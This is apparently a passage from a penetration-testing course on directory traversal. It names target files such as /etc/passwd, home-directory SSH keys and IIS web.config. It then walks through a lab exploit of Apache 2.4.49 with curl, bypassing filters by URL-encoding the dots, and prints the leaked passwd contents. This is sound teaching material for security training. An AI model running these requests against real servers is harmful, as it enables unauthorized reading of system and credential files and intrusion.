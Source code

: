 After confirming the vulnerability, we can try to specify files containing sensitive information such as configuration files and logs.

In Linux systems, a standard vector for directory traversal is to list the users of the system by displaying the contents of /etc/passwd, check for private keys in their home directory, and use them to access the system via SSH. 

Sensitive files are more difficult to find on Windows. To identify files containing sensitive information, we need to closely examine the web application and collect information about the web server, framework, and programming language.

Once we gather information about the running application or service, we can research paths leading to sensitive files. For example, if we learn that a target system is running the Internet **Information Services (IIS)** web server, we can research its log paths and web root structure. Reviewing the Microsoft documentation, we learn that the logs are located at **"C:\inetpub\logs\LogFiles\W3SVC1\"**. Another file we should always check when the target is running an IIS web server is "**C:\inetpub\wwwroot\web.config**", which may contain sensitive information like passwords or usernames.

Windows uses backslashes instead of forward slashes for file paths. 

*Can you find out if a system is using Windows through the use of slashes?*

Use curl and multiple ../ sequences to try exploiting this directory traversal vulnerability in Apache 2.4.49 on the WEB18 machine.
```bash
kali@kali:/var/www/html$ curl http://192.168.50.16/cgi-bin/../../../../etc/passwd

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>


kali@kali:/var/www/html$ curl http://192.168.50.16/cgi-bin/../../../../../../../../../../etc/passwd

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>
```
Because leveraging ../ is a known way to abuse web application behavior, this sequence is often filtered by either the web server, web application firewalls, or the web application itself.

Fortunately for us, we can use **URL Encoding**, also called **Percent Encoding**, to potentially bypass these filters. We can leverage specific ASCII encoding lists to manually encode our query or use the online converter on the same page. For now, we will only encode the dots, which are represented as "%2e".
```bash
kali@kali:/var/www/html$ curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
alfred:x:1000:1000::/home/alfred:/bin/bash
```
